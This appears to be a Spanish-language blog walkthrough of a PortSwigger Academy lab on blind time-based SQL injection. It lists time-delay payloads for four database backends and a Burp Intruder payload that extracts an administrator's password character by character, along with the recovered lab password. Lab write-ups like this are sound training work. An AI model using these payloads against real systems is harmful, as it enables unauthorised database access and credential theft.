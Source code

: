 +++
author = "Alux"
title = "Portswigger Academy Learning Path: SQL Injection Lab 14"
date = "2021-11-11"
description = "Lab: Blind SQL injection with time delays and information retrieval"
tags = [
    "sqli",
    "portswigger",
    "academy",
    "burpsuite",
]
categories = [
    "pentest web",
]
series = ["Portswigger Labs"]
image = "head.png"
+++

# Lab: Blind SQL injection with time delays

En este <cite>laboratorio[^1]</cite>la finalidad es poder explotar una vulnerabilidad de sql injection pero basandose en tiempo, la cual se utilizara posteriormente para poder extraer los datos del usuario y contrasena de la tabla usuers.

## Reconocimiento

Basandonos en la siguiente <cite>lista[^2]</cite> encontramos que inyectando la siguiente consulta podemos ejecutar un delay, sabiendo que la aplicacion es backend `postgresql`.

```
xxxxxxxxx' AND 1337=(SELECT 1337 FROM PG_SLEEP(10)) AND '1337'='1337 //inyectar esto no dejara ejecutar conditional time delay
xxxxxxxxx'%3BSELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END-- //%3B para no tener conflicto en repeater al colocar ';' en la cookie
```
Podemos inyectar las siguientes consultas para crearla:

   Backend | Consulta SQL
--------|------
    Oracle | SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'\|\|dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual
  Microsoft | IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'
  PostgreSQL | SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END
  MySQL | SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a')

###  Payloads

Ahora toca crear una consulta para extraer los valores de la contrasena de la tabla `users`, creando la siguiente consulta, sabiendo que es `postgresql`. Como en los anteriores sabemos que son 20 caracteres en este caso vamos a utilizar la siguiente consulta, utilizando clusterbomb, el primero como valor numero de 1 a 20 y el 2 con una lista de caracteres alfanumericos.

```sql
'%3BSELECT CASE WHEN (username='administrator' and substr(password,<valor cambiante 1 a 20>,1)='valor alfanumerico') THEN pg_sleep(10) ELSE pg_sleep(0) END from users--
```

![Ataque con intruder](intruder.png)

Y con esto ya tenemos la contrasena del usuario `administrator` que es `ifp6pjrl8u4oy2xp9e3b`. Y algo a tomar en cuenta es al hacer inyecciones de este tipo, la respuesta de las peticiones al hacerse juntas la respuesta tardara igual en todas, asi que lo justo es no enviar en hilos ya que no sabremos cual sera la respuesta que tarde mas ya que se replicara en varias respuestas.

#### Extraer datos

Y con esto hemos resulto el lab:

![Laboratorio resuelto](resuelto.png)

Con esto ya muestra que se ha resuelto el lab.

[^1]: [Laboratorio](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval)
[^2]: [Lista de Payloads SQL Injection Time Based](lista.txt)